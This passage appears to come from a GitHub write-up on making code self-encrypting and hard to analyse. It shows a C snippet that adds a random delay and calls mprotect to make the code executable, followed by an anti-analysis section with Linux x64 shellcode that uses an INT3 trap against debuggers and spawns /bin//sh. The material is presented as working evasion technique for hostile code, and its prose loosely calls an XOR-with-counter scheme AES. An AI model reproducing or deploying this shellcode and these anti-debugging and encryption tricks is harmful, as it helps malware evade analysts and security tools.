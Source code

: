 The ``encrypt_code`` function takes a code section, size, key, and initialization vector (IV) as parameters. It encrypts the code section using AES encryption. It generates a counter value using the IV and XORs the code bytes with the counter. This effectively encrypts the code section.

We add a random delay before encryption by generating a delay between 0 and 999 milliseconds using ``srand`` and ``rand``. It then sleeps for the calculated delay using `usleep`.

```C
// add random delay before encryption
srand(time(NULL));
int delay = rand() % 1000; // random delay between 0 and 999 milliseconds
usleep(delay * 1000);

// make code read-only and executable
if (mprotect(alignedcode, (size_t) code - (size_t) alignedcode + END, PROT_READ | PROT_EXEC))
return 1;
```

After the encryption process and delay, the code snippet makes the code section read-only and executable again using ``mprotect``. This helps to enforce memory protection and prevent further modifications.

## Anti-Analysis
In this part we use a various forms of anti-analysis measures, and self-modifying behavior, making it more difficult for analysts to understand the inner workings of the code and extract meaningful information

### Anti-debugging
[Anti-Debug Trick INT3 Trap Shellcode the INT3 instruction](https://packetstormsecurity.com/files/157562/Linux-x64-Anti-Debug-Trick-INT3-Trap-Shellcode.html)
), triggers a breakpoint interrupt, commonly used for debugging purposes. By incorporating INT3 instructions strategically within the shellcode, it attempts to interrupt and disrupt the debugging process, making it difficult for a debugger to analyze the code flow.

```c
char shellcode[] = 
"\xeb\x63\x48\x89\xe6\x6a\x0d\x59"\
"\x6a\x01\xfe\x0c\x24\xe2\xf9\x80"\
"\xc9\x0d\x54\x48\x89\xe2\x0f\x05"\
"\xcc\x48\x31\xc0\x48\x89\xc7\xb0"\
"\x3c\xeb\xf3\x6a\x0d\x59\x4d\x31"\
"\xc9\x41\x51\xe2\xfc\x49\x89\xe1"\
"\x49\x83\xc1\x03\x41\x80\x09\x14"\
"\x49\x83\xc1\x0d\x66\x41\x83\x09"\
"\xff\xe8\xbc\xff\xff\xff\x99\x48"\
"\x31\xc0\xb0\x3b\x52\x48\xbf\x2f"\
"\x62\x69\x6e\x2f\x2f\x73\x68\x57"\
"\x54\x5f\x4d\x31\xc9\x4c\x89\xce"\
"\x48\x89\xf2\xeb\xb1\x6a\x0d\x58"\
"\x6a\x05\x5f\x6a\x08\x41\x5a\xeb"\
"\xb2";
```
